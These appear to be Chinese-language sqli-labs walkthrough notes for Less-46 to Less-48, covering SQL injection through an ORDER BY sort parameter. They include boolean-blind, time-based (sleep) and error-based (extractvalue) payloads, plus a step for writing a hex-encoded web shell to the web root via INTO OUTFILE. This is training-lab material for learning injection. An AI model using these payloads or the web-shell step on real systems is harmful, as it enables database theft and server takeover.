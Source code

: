 

布尔盲注

数据库第 1 位为：s

Payload

```payload
?sort=rand(left(database(),1)>'r')
?sort=rand(left(database(),1)>'s')
```

根据返回值顺序有无改变判断值



延时注入

数据库第一个字母的 ascii 码为 115，即`s`

Payload

```payload
?sort=rand(if(ascii(substr(database(),1,1))>114,1,sleep(1)))
```

```payload
?sort=rand(if(ascii(substr(database(),1,1))>115,1,sleep(1)))
```



上传马

Into outtfile /var/www/html/xxxx lines terminated by 0x(网马进行16进制转换)

需要权限

## 0X33Less-47

同46类似，多了’闭合

?sort=1' procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)--+

手法相同

![image-20201112161033298](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201112161033298.png)



## 0X34Less-48

相比之前无报错回显

其他手法依然可用

通过rand()进行盲注

?sort=rand(ascii(left(database(),1))=115)

?sort=rand(ascii(left(database(),1))=116)

?sort=rand(ascii(left(database(),1))=117)根据变化判断第一位ascii为115
